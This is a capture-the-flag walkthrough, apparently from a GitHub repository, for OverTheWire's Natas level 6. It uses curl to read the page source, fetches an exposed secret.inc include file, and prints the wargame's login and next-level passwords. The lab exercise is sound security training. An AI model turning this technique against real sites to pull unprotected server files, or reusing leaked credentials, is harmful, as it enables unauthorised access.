


# Natas Level 6

You can watch the walkthrough for this level here:  
[](https://www.youtube.com/watch?v=C_kIMOPnWOg&ab_channel=Gabahack)

> This video shows my full process solving (in Spanish) Level 6 from scratch, including the obstacles and mistakes I faced along the way. Some walkthroughs might be longer or shorter depending on the complexity of the level or how quickly I find the solution.

---

## 🔍 Exploration

We start by checking the HTML content of this level using the `curl` command:

```bash
❯ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned  http://natas6.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "0RoJwHdSKWFTYR5WuiAewauSuNaBXned" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">


<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
This is how the page looks in Mozilla:



The page has an input for the secret, and a link to view the source code:

```bash
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "<censored>" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

We see that the code includes a file called secret.inc and compares its content with the user’s input.


## 💣 Exploitation

Let’s read the file that the page includes:
```bash
❯ curl -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned  http://natas6.natas.labs.overthewire.org/includes/secret.inc
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Now that we know the secret, we can submit it through the form:


And we get access to the password for the next level:



## 🔐 Password for Natas 7

bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
